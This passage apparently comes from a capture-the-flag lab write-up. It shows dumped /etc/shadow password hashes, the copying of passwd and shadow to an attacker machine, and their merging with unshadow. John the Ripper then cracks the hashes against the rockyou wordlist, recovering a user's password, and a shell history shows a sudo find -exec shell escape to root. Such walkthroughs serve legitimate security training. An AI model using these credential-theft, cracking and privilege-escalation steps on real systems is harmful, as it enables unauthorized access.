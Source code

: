```bash
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

Let's copy both `/etc/passwd` and `/etc/shadow` to out attacker machine and then use `unshadow` tool:

```bash
unshadow passwd shadow > toCrack
```

Let's crack:

### John The Ripper

```bash
john ./toCrack --wordlist=/usr/share/wordlists/rockyou.txt
missy:Password1:1001:1001::/home/missy:/bin/bash
```

### missy user

We then switch to "missy" user.

### history

```bash
[missy@ip-10-10-111-57 ~]$ history
    1  ls
    2  cd missy/
    3  ls
    4  cd Do
    5  cd Documents
    6  ls
    7  cat flag1.txt
    8  su root
    9  quit
   10  sudo -l
   11  find . -exec /bin/sh \; -quit
   12  find -exec /bin/sh \; -quit
   13  sudo find /home -exec /bin/bash \;
   14  ls
   15  cd leonard/
   16  cd rootflag/
   17  su root
   18  ls
   19  history
```
